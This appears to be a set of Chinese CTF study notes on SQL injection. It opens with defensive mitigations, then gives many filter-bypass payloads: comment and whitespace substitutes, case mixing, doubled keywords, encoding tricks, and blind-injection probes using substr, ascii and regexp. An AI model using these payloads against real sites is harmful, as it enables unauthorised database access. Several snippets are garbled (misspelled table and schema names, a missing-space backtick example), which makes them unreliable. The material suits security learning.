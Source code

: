 #### SQL注入常见的过滤方法：

```
参数化查询：
使用数据库提供的参数化查询接口，这样用户输入会被数据库当作数据处理，而不是SQL命令的一部分。

使用ORM框架：
对象关系映射（ORM）框架通常自带防止SQL注入的机制，因为它们使用参数化查询或自己的抽象层来处理数据。

输入验证：
对所有用户输入进行验证，确保它们符合预期的数据类型和格式。例如，如果期望的输入是数字，确保输入不是字符串或其他数据类型。

白名单过滤：
只允许已知安全的数据通过，而不是尝试识别和过滤掉所有可能的危险输入。

黑名单过滤：
识别并拒绝包含潜在危险字符或字符串的输入，如SQL关键字（SELECT、INSERT、DELETE等）。

正则表达式：
使用正则表达式来验证用户输入是否符合特定的模式，从而阻止不符合模式的输入。

转义特殊字符：
对用户输入中的特殊字符（如单引号、分号等）进行转义，使它们在SQL语句中不再具有特殊含义。

使用安全的API和函数：
选择安全的数据库访问API和函数，避免那些允许直接执行SQL命令的API。

限制数据库权限：
限制应用程序使用的数据库账户权限，确保它们没有必要的权限去执行潜在的危险操作。

使用Web应用防火墙（WAF）：
部署WAF可以帮助过滤掉包含SQL注入攻击尝试的请求。

输出编码：
对所有输出到页面的数据进行适当的编码，以防止跨站脚本（XSS）攻击，这也间接有助于减少SQL注入的风险。

错误处理：
定制错误消息，避免在错误响应中泄露数据库结构或敏感信息。

使用HTTPonly和Secure标志：
对于Cookies，使用HTTPonly标志可以防止客户端脚本访问，使用Secure标志可以确保通过HTTPS传输。

内容安全策略（CSP）：
通过实施内容安全策略，可以减少XSS攻击的风险，间接降低SQL注入的可能性。

定期安全审计和代码审查：
定期对应用程序代码进行安全审计和代码审查，以发现和修复潜在的安全漏洞。
```

---

常见ascii符号

```
%09(制表符), %0a(换行), %0b(垂直制表符), %0d(回车), %a0(不间断空格),%oc(换页),/**/(注释),00(空字符),0d(回车符)
```

---

在有时候`where`被过滤时，可以用`having`代替

---

正则表达式

- *SQL中的正则表达式主要使用REGEXP或RLIKE关键词进行匹配*

---

#### 逗号过滤绕过方法

sql语句中有三个地方要用到逗号：1、函数中的逗号`Substr(database(),1,1)` 2、限制记录`Limit 1,2` 3、分隔列名`union select 1,2,3`

一、`from for`绕过

主要用在函数内，用来截取第几个字符:

`from x for y` x是从第x个开始读取，y是读取的长度

二、`offset`绕过

格式：`select * from user limit 2 offset 0;`从第0条数据开始，返回两条数据

需要注意，limit 1,2 指的是从第一行往后取2行（包括第一行和第二行)；而limit 1 offset 2是从第一行开始只取第二行

三、`join`绕过

`join`可以将多个表连接起来

使用实例：`select * from user where id=1 union select 1,2,3;`改成`select * from user where id=1 union select * from ((select1)a JOIN (select2)b JOIN (select3)c);`

---

#### SQL语句like用法

语法格式：select * from 表名 where 字段名 like 对应值

**%**：1、like 'a%'——搜索所有以a开头的所有字符串

​       2、like '%a'——搜索所有以a结尾的所有字符串

​       3、like '%a%'——搜索在任何位置包含a的所有字符串

---

**几种绕过空格限制的方法：**

+ URL编码：

	1. 最常用的空格替换是 %20，这是空格的标准URL编码。
	2. 在某些情况下，%A0（代表不换行空格）也可能有效，尤其是在Mysql环境中。
	3. 其他可能的编码包括 %0A（换行）、%0B（垂直制表）、%0C（表格制表）、%0D（回车）、%09（水平制表）等，它们在特定上下文中可能被解析为空格。

+ 特殊字符：

	1. 使用全角空格（　），在一些不严格的过滤机制中可能被接受。
	2. 非打印字符，如%C2%A0（Unicode的不换行空格）。

+ 注释符和字符串连接：

	在SQL注入场景中，可以利用注释符（如-- 或 /* ... */）来规避空格需求，或者在条件语句中使用字符串连接符（如MySQL中的concat()函数）来构造无需空格的语句。

+ 编码转换：
	利用HTML实体编码，如 &#32; 表示空格，但这通常不适用于URL或查询参数，更适合于HTML内容本身。

+ 多字节字符：
	某些多字节字符（尤其是全角字符或特殊Unicode字符）在某些系统或库中可能被解释为空格。

+ 利用编程语言特性：
	在一些语言中，如Python，空格在某些上下文中可能不是必需的（如使用点号访问属性时）。

+ 调整语法结构：
	重新组织SQL查询或其他命令的结构，避免需要空格的地方。

+ 利用特定漏洞或弱点：
	如文件路径处理中的特殊案例，可能允许使用非标准字符作为路径分隔符。

---

注入点为**数值型注入**时，可往题目原访问点传一个-1,由于id通常不为负数,后端根据id查询不到内容,就只能展示联合查询的结果,从而帮助我们判断字段显示的位置

---

SQL注入

**注释符**

```
'#', '--+', '-- -', '%23', '%00', '/**/'
```

 **"and、or" 过滤**

```SQL
可以使用"&&"和"||"代替
?id=1 && 1=1 --+

# 盲注，异或运算相同为0，不同为1；根据返回值0，1判断
?id=1 union select (substr(database(),1,1)='s') ^ 0 --
```

**大小写绕过**

```SQL
id=-1' UnIoN SeLeCT xxx
```

**双写绕过**

适用于将关键词置空的场景

```SQL
id=-1'UNIunionONSeLselectECT1,2,3–-
```

**编码绕过**

可以使用URL，hex，ASCII等编码绕过

例如'or 1=1

```SQL
27%20%4F%52%201%3D%31%20%2D%2D
```

**注释绕过**

内联注释/**/将关键词分隔开

```SQL
id=1' UN/**/ION SE/**/LECT database() --
```

**空格过滤**

内联注释代替空格

```SQL
id=1/**/and/**/1=1
```

**括号嵌套**

```SQL
select(group_concat(table_name))from(information_schema.taboles)where(tabel_schema=database());
```

**制表符、换行、不可见空格**

```SQL
%09(制表符), %0a(换行), %0b(垂直制表符), %0d(回车), %a0(不间断空格),%oc(换页)
```

**反引号**

```SQL
union(selecttable_name,table_typefrominformation_schema.tables);
```

#### 比较符号 "=、<、>"过滤

in()

```SQL
ascii(substr(select database(),1,1)) in(115);        //根据回显判断
```

like

```
like代替'='
```

正则表达式

```SQL
select database() regexp '^s'; //根据回显判断
```

